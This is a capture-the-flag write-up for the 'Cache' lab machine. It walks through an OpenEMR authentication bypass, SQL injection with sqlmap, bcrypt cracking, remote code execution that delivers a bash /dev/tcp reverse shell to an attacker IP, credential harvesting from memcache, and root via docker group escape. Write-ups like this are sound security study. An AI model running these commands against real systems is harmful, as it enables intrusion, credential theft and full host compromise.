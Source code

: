 # Cache

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.211.212
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-10 10:30 EDT
Nmap scan report for 10.129.211.212
Host is up (0.0089s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### Accidental Subdomain Enum

Port 80 reveals a blog like website:

<figure><img src="../../../.gitbook/assets/image (24) (2).png" alt=""><figcaption></figcaption></figure>

There's not much here, but we can add `cache.htb` to our `/etc/hosts` file since there's a banner for it on screen. I ran a `gobuster` and `wfuzz` scan on the machine. Funnily, I accidentally had a typo in my `wfuzz` command, and found a completely new domain present:

```
$ wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -H 'Host:FUZZ.htb' --hw=973 -u http://cache.htb  /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://cache.htb/
Total requests: 19966

=====================================================================
ID           Response   Lines    Word       Chars       Payload                     
=====================================================================
                   
000010187:   302        0 L      0 W        0 Ch        "hms"
```

`hms.htb` is active on this machine. We can visit that.

### OpenEMR

The page shows us a login for OpenEMR, which is known to have a ton of vulnerabilities:

<figure><img src="../../../.gitbook/assets/image (22) (9) (1).png" alt=""><figcaption></figcaption></figure>

We can head to the Github Repo for this software and attempt to find its version using the default files present:

{% embed url="https://github.com/openemr/openemr" %}

Visiting `sql_patch.php` reveals that this is OpenEMR 5.0.1:

<figure><img src="../../../.gitbook/assets/image (681).png" alt=""><figcaption></figcaption></figure>

This version has quite a few RCE exploits for it:

```
$ searchsploit openemr 5.0.1
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
OpenEMR 5.0.1 - 'controller' Remote Code Execution         | php/webapps/48623.txt
OpenEMR 5.0.1 - Remote Code Execution (1)                  | php/webapps/48515.py
OpenEMR 5.0.1 - Remote Code Execution (Authenticated) (2)  | php/webapps/49486.rb
OpenEMR 5.0.1.3 - Authentication Bypass                    | php/webapps/50017.py
```

There's also an authentication bypass exploit here:

{% embed url="https://www.exploit-db.com/exploits/50017" %}

To bypass it, all we have to do is simply visit `/portal/account/register.php`, and it would treat us as logged in with a valid token. Searching for exploits led me to a [PDF](https://www.open-emr.org/wiki/images/1/11/Openemr\_insecurity.pdf) that had the vulnerability report for v5.0.1.3, and there are lot including a lot of SQL Injections.

Firstly, visiting `/portal/find_appt_popup_user.php` just works as we have 'bypassed' the login.&#x20;

<figure><img src="../../../.gitbook/assets/image (671).png" alt=""><figcaption></figcaption></figure>

For this case, the second PoC listed works best.&#x20;

<figure><img src="../../../.gitbook/assets/image (683).png" alt=""><figcaption></figcaption></figure>

Using `sqlmap`, we can enumerate and view the stuff in the database. (skipped the enumeration)

<pre><code>$ sqlmap -r req -D openemr -T users_secure --dump
<strong>Table: users_secure
</strong>[1 entry]
+----+---------+--------------------------------------------------------------+----------+---------------------+---------------+---------------+--------------------------------+-------------------+
| id | salt    | password                                                     | username | last_update         | salt_history1 | salt_history2 | password_history1              | password_history2 |
+----+---------+--------------------------------------------------------------+----------+---------------------+---------------+---------------+--------------------------------+-------------------+
| 1  | &#x3C;blank> | $2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B. | &#x3C;blank>  | 2019-11-21 06:38:40 | &#x3C;blank>       | &#x3C;blank>       | $2a$05$l2sTLIG6GTBeyBf7TAKL6A$ | openemr_admin     |
+----+---------+--------------------------------------------------------------+----------+---------------------+---------------+---------------+--------------------------------+-------------------+
</code></pre>

We can crack this hash in `john`.&#x20;

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash      
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 32 for all loaded hashes
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
xxxxxx           (?)     
1g 0:00:00:00 DONE (2023-05-10 10:53) 5.555g/s 4800p/s 4800c/s 4800C/s lester..felipe
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Now that we have the admin password, we can do RCE.&#x20;

{% embed url="https://www.exploit-db.com/exploits/45161" %}

Remember to use `python2`.&#x20;

```
$ python2 45161.py -u openemr_admin -p xxxxxx -c 'bash -i >& /dev/tcp/10.10.14.13/4444 0>&1' http://hms.htb
```

<figure><img src="../../../.gitbook/assets/image (670).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Ash Creds

I searched all the files within `/var/www` except for OpenEMR for credentials:

```
www-data@cache:/var/www/cache.htb/public_html$ grep -iRl 'Password' ./
./login.html
./index.html
./jquery/functionality.js
```

So here's the stuff within that file:

```javascript
www-data@cache:/var/www/cache.htb/public_html$ cat ./jquery/functionality.js
$(function(){
    
    var error_correctPassword = false;
    var error_username = false;
    
    function checkCorrectPassword(){
        var Password = $("#password").val();
        if(Password != 'H@v3_fun'){
            alert("Password didn't Match");
            error_correctPassword = true;
```

Using that password, we can `su` to `ash`.

<figure><img src="../../../.gitbook/assets/image (661).png" alt=""><figcaption></figcaption></figure>

### Memcache

When we enumerate the ports that are open, we can see that port 11211 is listening:

```
ash@cache:~$ netstat -tulpn
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:11211         0.0.0.0:*               LISTEN      -            
<TRUNCATED>
```

This is the `memcache` service.

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/11211-memcache" %}

We can enumerate the items within it:

```
ash@cache:~$ echo "stats cachedump 1 0" | nc -vn -w 1 127.0.0.1 11211 
Connection to 127.0.0.1 11211 port [tcp/*] succeeded!
ITEM link [21 b; 0 s]
ITEM user [5 b; 0 s]
ITEM passwd [9 b; 0 s]
ITEM file [7 b; 0 s]
ITEM account [9 b; 0 s]
END
```

We can grab the password and `su` to `luffy`.

```
ash@cache:~$ echo "get passwd" | nc -vn -w 1 127.0.0.1 11211         
Connection to 127.0.0.1 11211 port [tcp/*] succeeded!
VALUE passwd 0 9
0n3_p1ec3
END
```

### Docker Group

`luffy` is part of the `docker` group.&#x20;

```
luffy@cache:/home/ash$ id
uid=1001(luffy) gid=1001(luffy) groups=1001(luffy),999(docker)
luffy@cache:/home/ash$ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
ubuntu              latest              2ca708c1c9cc        3 years ago         64.2MB
```

We can just run this command to create an Ubuntu container that is mounted on the main file system, where we have access to the container as `root`. This effectively gives us `root` access to the main file system to make `/bin/bash` an SUID binary.&#x20;

```
luffy@cache:/home/ash$ docker run -it --rm -v /:/mnt ubuntu chroot /mnt bash
root@ee809b31a278:/# id
uid=0(root) gid=0(root) groups=0(root)
root@ee809b31a278:/# cd root
root@ee809b31a278:~# ls
root.txt  run.sh  should_work
root@ee809b31a278:~# chmod u+s /bin/bash
```

Then we can exit this and get a shell with EUID of `root`.

<figure><img src="../../../.gitbook/assets/image (34) (10).png" alt=""><figcaption></figcaption></figure>
